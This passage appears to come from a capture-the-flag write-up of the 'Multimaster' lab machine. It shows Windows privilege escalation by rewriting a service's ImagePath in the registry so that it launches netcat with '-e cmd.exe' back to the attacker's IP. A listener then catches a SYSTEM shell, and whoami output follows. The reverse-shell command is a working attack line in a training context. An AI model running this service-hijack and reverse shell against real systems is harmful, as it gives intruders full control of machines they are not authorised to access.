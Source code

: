 ```text
[SC] StartService: OpenService FAILED 1060:

The specified service does not exist as an installed service.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\VSS /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /fThe operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

I had to try many services until I found one that would work. Even then, it said it failed to start the service, but I got my shell!

```text
zweilos@kalimaa:~/htb/multimaster$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.179] 49763
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                                             Attributes                                        
========================================== ================ =============================================================== ==================================================
Mandatory Label\System Mandatory Level     Label            S-1-16-16384                                                                                                      
Everyone                                   Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                                    Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6                                                         Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group
NT SERVICE\VSS                             Well-known group S-1-5-80-3195062495-2862850656-3724129271-1847284719-4038691091 Enabled by default, Enabled group, Group owner    
LOCAL                                      Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544                                                    Enabled by default, Enabled group, Group owner    
```